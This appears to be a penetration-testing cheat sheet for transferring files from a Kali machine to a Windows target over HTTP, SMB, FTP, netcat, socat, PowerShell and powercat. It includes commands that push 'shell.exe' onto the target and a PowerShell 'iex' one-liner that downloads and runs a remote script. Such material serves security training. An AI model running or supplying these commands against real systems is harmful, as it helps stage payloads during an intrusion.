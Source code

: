 # File Transfer
`477`
## HTTP Server

Server

``` bash
sudo python3 -m http.server 80
```

wget

``` bash
wget <uri> -O /path/to/file.ext

wget <uri> -P /path/to/
```

## SMB Protocol

Install

``` bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo pip install -r requirements.txt
sudo python3 setup.py install
```

SMB Server

``` bash
$ locate whoami.exe
/usr/share/windows-resources/binaries/whoami.exe

$ smbserver.py a /usr/share/windows-binaries/
```

SMB Server

``` bash
$ \\<ip_server>\a\whoami.exe
```

## FTP Server

Install

``` bash
sudo apt-get install vsftpd
sudo service vsftpd start
```

Anonymous access

``` bash
sudo nano /etc/vsftpd.conf

=> anonymous_enable=YES
```

## Netcat

Kali machine

``` bash
nc -nvlp 4444 < /usr/share/windows-resources/binaries/wget.exe
```

Windows machine

``` bash
nc -nv 192.168.11.130 4444 > wget.exe
```

## Socat

Kali machine

``` bash
sudo socat TCP4-LISTEN:443,fork file:shell.exe
```

Windows machine

``` bash
socat TCP4:192.168.11.130:443 file:shell.exe,create
```

## PowerShell

Kali machine

``` bash
sudo python3 -m http.server 80
```

Windows machine

``` bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.11.130/wget.exe','C:\Users\Public\Desktop\wget.exe')"
```

## Powercat

``` powershell
Set-ExecutionPolicy Unrestricted

iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

. .\powercat.ps1
```

Kali machine

``` bash
sudo nc -lnvp 443 > powercat.ps1
```

Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -i C:\Users\Public\powercat.ps1
```